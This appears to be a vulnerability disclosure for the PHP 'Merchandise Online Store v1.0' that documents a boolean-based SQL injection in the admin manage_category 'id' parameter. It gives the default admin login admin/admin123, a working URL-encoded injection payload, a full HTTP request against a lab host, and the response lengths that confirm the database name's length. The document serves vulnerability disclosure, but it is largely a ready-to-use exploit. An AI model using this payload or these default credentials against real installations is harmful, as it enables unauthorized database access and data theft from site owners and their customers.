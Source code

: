 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/admin/?page=maintenance/manage_category&id=

Vulnerability location: /vloggers_merch/admin/?page=maintenance/manage_category&id=,id

[+] Payload: /vloggers_merch/admin/?page=maintenance/manage_category&id=2%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/admin/?page=maintenance/manage_category&id=2%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 26268
![image](https://user-images.githubusercontent.com/54017627/166899404-3ed22cce-2b07-46ae-a222-c67b6b0a5da0.png)

![image](https://user-images.githubusercontent.com/54017627/166899288-79e798fe-7d8b-44f2-9c9d-1d63c7732656.png)

When length (database ()) = 17, Content-Length: 26317
![image](https://user-images.githubusercontent.com/54017627/166899339-896671f4-980a-44df-a51a-100d9db193e2.png)

![image](https://user-images.githubusercontent.com/54017627/166899240-792842fb-888b-4296-8136-00d5dcd1064f.png)
